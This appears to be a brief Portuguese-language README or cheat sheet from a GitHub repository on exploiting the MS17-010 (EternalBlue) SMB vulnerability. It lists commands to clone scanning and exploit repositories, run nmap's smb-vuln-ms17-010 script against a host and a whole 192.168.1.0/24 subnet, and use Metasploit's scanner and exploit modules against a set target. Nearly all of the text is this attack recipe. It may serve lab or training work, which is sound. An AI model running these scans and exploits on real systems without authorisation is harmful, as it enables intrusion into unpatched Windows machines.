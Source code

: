 git clone https://github.com/vaamonde/nmap-nse-scripts
 
git clone https://github.com/vaamonde/exploit

Verificar versão do NMAP:	nmap --version<br>
				man nmap
							
nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse localhost

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.0/24

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.150

Atualizar o Metasploit:		msfupdate
Acessar o Metasploit:		msfconsole
Acessar o Modo Scan:		use auxiliary/scanner/smb/smb_ms17_010
				show options
				set rhosts 192.168.1.1
				exploit
							
Acessar o modo Exploit:		use exploit/ms17_010/ms_17_010
				show options
				set rhosts 192.168.1.1
				exploit
